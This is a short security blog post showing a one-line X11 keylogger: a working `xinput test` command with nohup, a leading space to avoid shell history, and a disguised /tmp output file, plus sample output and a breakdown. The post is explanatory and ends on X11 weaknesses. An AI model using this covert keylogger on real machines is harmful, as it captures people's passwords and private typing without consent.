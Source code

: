 ```yaml
---
layout: post
title:  "A one-line X11 keylogger"
categories: linux X11 security
---
```


It's an old adage that you can't secure a computer against people with physical
access to it. I was interested in this idea, so I was exploring what could be done
with only keyboard and mouse access to a typical Ubuntu machine (i.e. without
being able to plug in usb devices or pull out hard drives) when I came across
the `xinput test` command. I'm sure this is old hat to anyone with a real
interest in security, and I'm sure there are plenty of ways to counter it; but I
think it's interesting anyway.

So, here's how to run an X11-based keylogger which writes to a local file and
probably won't be noticed by a non-paranoid user: Open a terminal, run

```
 nohup xinput test $(xinput list | grep 'AT Translated' | sed 's/.*id=\([0-9]*\).*/\1/') > /tmp/tmp.QTQTivXDhI
```

with a leading space character (markdown eats leading spaces in code samples..)
and close the terminal. You may need to change the `AT Translated` to the name
of your keyboard to get it working one your machine, have a look at the output
of `xinput list`. Now press some keys and it will write into
`/tmp/tmp.QTQTivXDhI` something like:

    key press   40
    key press   47
    key release 40
    key press   58
    key press   45
    key release 47
    key release 58
    key release 45
    key press   41
    key press   43
    key release 41
    key press   46
    key release 43
    key press   44
    key release 46
    key press   28
    key release 44
    key press   65
    key release 28
    key release 65

those numbers are X11 keycodes which can be translated to key names if you know
the keyboard layout in use.

Here's a breakdown of the command:

* The leading space tells bash not to record the command in it's history

* `nohup` prevents it from stopping when you close the terminal

* `xinput test` is the command which does the actual keylogging

* `$(...)` finds the id of the keyboard to log

* `> /tmp/tmp/....` writes the output to an inconspicuous looking file

Of course to make any use of this an attacker would need to come back to the
machine and inspect the resulting file, but if someone can get access once they
can probably do it a second time.

I'm not sure that this is a real problem since there are so many other things
that an attacker with this kind of access could do. This is one of many security
issues with X11 that Wayland
[should solve](https://blog.martin-graesslin.com/blog/2015/11/looking-at-the-security-of-plasmawayland/).
